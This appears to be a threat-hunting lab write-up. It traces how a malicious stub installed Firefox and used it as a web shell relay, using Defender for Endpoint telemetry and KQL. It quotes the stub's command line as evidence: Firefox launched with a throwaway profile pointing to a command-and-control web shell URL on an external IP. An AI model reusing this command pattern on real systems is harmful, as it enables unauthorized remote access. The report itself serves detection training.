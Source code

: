 <img width="400" src="https://github.com/user-attachments/assets/06701f92-d410-4a48-b8b5-eba364812972" />

# Threat Hunt Report – Firefox Used as a Web Shell Relay
- [Scenario Creation](https://github.com/antoniofranc/Threat-Hunt-Scenario-Firefox-as-a-Web-Shell-Relay-/blob/main/threat-hunting-scenario-firefox-as-a-web-shell-relay.md)

## Platforms and Languages Leveraged
- Windows 10 Virtual Machines (Microsoft Azure)
- EDR Platform: Microsoft Defender for Endpoint
- Kusto Query Language (KQL)
- Mozilla Firefox (installed via malicious stub)

##  Scenario

Security monitoring flagged suspicious behavior on workstation `snet` associated with user `employee0`.
At first glance, the endpoint showed a deleted Firefox executable, but further telemetry revealed a malicious installation and usage of Firefox as a `web shell relay`.

The installation was initiated through a malicious stub file that attempted to launch Firefox with a temporary malicious profile and connect to an external command-and-control (C2) URL hosted on `172.203.80.23`/admin/shell.php.

This behavior strongly indicates unauthorized browser installation and potential remote access activity through web shell relay techniques.


### High-Level Firefox-Related IoC Discovery Plan

- **Check `DeviceFileEvents`** for creation or deletion of `firefox.exe` or related stub installers.
- **Check `DeviceProcessEvents`** for suspicious Firefox process launches with command-line flags.
- **Check `DeviceNetworkEvents`** for outbound HTTP requests to unauthorized IPs or domains.

---

## Steps Taken

### 1. Searched the `DeviceFileEvents` Table

I began by querying the `DeviceFileEvents` table to identify suspicious Firefox-related file operations by employee0. The initial query revealed that employee0 downloaded a legitimate Firefox installer at `2025-10-12T04:29:57Z` from Mozilla's official CDN to their Downloads directory.

As I continued analyzing the file events, I discovered critical evidence of a deleted executable: `C:\Program Files\Mozilla Firefox\firefox.exe.`The deletion occurred at `2025-10-12T05:55:24Z`, which immediately raised suspicions. The initiating process responsible for this deletion was a suspicious stub: `setup-stub.exe -no-remote -profile "C:\Users\employee®@\Downloads\Temp\MalProfile" http://172.203.80.23/admin/shell.php`. 

This command line was particularly alarming because it contained a direct HTTP reference to `/admin/shell.php`, strongly indicating web shell activity. Additionally, I noticed the creation and subsequent deletion of temporary folders named `Temp` and `MalProfile` in the Downloads directory, suggesting an attempt to cover tracks.
